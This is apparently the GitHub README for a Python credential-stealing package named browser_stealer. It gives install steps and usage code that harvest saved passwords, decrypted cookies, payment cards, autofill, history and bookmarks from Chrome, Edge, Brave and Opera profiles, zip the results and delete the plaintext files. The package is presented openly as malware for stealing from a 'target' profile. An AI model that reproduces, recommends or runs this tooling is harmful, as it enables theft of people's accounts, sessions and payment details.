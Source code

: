 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.1.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer.whl` and run following command:

```
pip install browser_stealer.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%FOLDER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
